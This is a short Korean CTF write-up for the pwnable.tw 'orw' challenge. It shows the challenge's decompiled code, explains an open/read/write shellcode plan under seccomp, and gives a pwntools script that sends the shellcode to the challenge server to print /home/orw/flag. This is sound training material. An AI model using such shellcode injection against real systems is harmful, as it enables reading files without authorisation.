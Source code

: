 ```yaml
---
title: "[pwnable.tw]orw"
date: 2019-11-17
ctf: Pwnable.tw
layout: post
published : false
---
```


HITCON-Training에서 풀었었는데 거기서 나온 문제랑 똑같은 문제이다. 

seccomp가 사용되서 open,read,write 빼고 다른 syscall은 사용할 수 없다. 

`/home/orw/flag` 파일을 읽어오면 된다고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  (shellcode)();
  return 0;
}
```

코드를 보면 내가 입력한 shellcode를 실행해준다.

그냥 shellcoding해주면 된다.

>\- stack 최상위에 저 문자열을 넣어준다.
>
>\- esp는 스택의 최상단 데이터를 가르키는 포인터니까 /home/orw/flag를 open()해준다.
>
>\- open()을 실행했으니 fd값이 eax에 담겨있을 것이다. 그리고 esp(/home/orw/flag)를 100바이트만큼 읽어은걸 esp에 저장한다.
>
>\- write() 함수로 stdout으로 esp(읽은 파일의 내용)의 내용을 출력해준다.

```c
from pwn import *
 
p = remote('chall.pwnable.tw',10001)
 
pay = asm(shellcraft.pushstr('/home/orw/flag'))
pay += asm(shellcraft.open('esp',0,0))
pay += asm(shellcraft.read('eax','esp','100'))
pay += asm(shellcraft.write('1','esp','100'))
p.sendlineafter(':',pay)
 
p.interactive()
```